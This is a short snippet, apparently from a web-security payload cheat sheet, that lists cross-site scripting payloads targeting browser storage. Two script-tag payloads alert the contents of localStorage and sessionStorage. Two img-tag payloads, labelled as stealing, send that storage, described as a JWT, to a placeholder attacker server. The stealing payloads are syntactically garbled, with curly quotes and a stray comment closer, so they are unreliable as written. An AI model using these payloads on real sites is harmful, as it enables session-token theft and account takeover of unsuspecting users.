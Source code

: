 <b>`localStorage` in `alert`:</b>
```html
<script>alert(JSON.stringify(localStorage))</script>
```
<b>`sessionStorage` in `alert`:</b>
```html
<script>alert(JSON.stringify(sessionStorage))</script>
```
<b>`localStorage` stealing:</b>
```html
<img src=’https://`{Attacker_server}`/yikes?jwt=’+JSON.stringify(localStorage);’--!>
```
<b>`sessionStorage` stealing:</b>
```html
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(sessionStorage);’--!>
```
